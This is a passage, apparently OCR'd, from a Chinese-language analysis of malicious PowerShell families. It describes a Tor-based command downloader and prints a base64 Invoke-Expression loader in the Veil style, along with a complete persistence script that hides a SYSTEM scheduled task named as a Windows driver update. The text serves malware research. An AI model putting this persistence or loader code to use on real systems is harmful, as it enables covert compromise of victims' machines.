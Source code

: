 该代码通过请求DNS TXT记录获取软件的URL下载地址，从该地址下载Tor和Polipo，利用这些软件持续请求传递给Invoke-Expression的新的PowerShell命令。Matt Graeber在分析这类恶意软件的全部功能方面做了非常出色的研究工作，给出了软件底层PowerShell代码的去混淆和注释版本。

**4.19 Veil Stream（7个样本，占比0.17%）**

此类变种使用的技术与“Powerfun Reverse”变种类似，将bae64字符串中的PowerShell代码插入内存，使用Invoke-Expression执行真正的shellcode载荷。代码的结构与Veil框架对应。

```
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String('rVZtb5tIEP4eKf9+nJvw==')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

**（三）本地持久化类别**

此类PowerShell代码的主要目的是实现宿主机的本地持久化。

**4.20 Scheduled Task COM（11个变量，占比0.27%）**

此类变种创建计划任务运行恶意二进制文件以实现持久化机制。样本中使用的PE文件来自于所下载的“minicraft.exe”，通过下面所示的PowerShell代码执行。之所以这么做可能是因为使用PowerShell比使用原始下载二进制代码更容易完成这一任务。

代码所用到的技术与之前的Retefe银行木马有关。



```
$TaskName = "Microsoft Windows Driver Update"
$TaskDescr = "Microsoft Windows Driver Update Services"
$TaskCommand = "C:ProgramDataWindowsUpgrademinecraft.exe"
$TaskScript = ""
$TaskArg = ""
$TaskStartTime = [datetime]::Now.AddMinutes(1)
$service = new-object -ComObject("Schedule.Service")
$service.Connect()
$rootFolder = $service.GetFolder("")
$TaskDefinition = $service.NewTask(0)
$TaskDefinition.RegistrationInfo.Description = "$TaskDescr"
$TaskDefinition.Settings.Enabled = $true
$TaskDefinition.Settings.Hidden = $true
$TaskDefinition.Settings.RestartCount = "5"
$TaskDefinition.Settings.StartWhenAvailable = $true
$TaskDefinition.Settings.StopIfGoingOnBatteries = $false
$TaskDefinition.Settings.RestartInterval = "PT5M"
$triggers = $TaskDefinition.Triggers
$trigger = $triggers.Create(8)
$trigger.StartBoundary = $TaskStartTime.ToString("yyyy-MM-dd'T'HH:mm:ss")
$trigger.Enabled = $true
$trigger.Repetition.Interval = "PT5M"
$TaskDefinition.Settings.DisallowStartIfOnBatteries = $true
$Action = $TaskDefinition.Actions.Create(0)
$action.Path = "$TaskCommand"
$action.Arguments = "$TaskArg"
$rootFolder.RegisterTaskDefinition("$TaskName",$TaskDefinition,6,"System",$null,5)
SCHTASKS /run /TN $TaskName
```
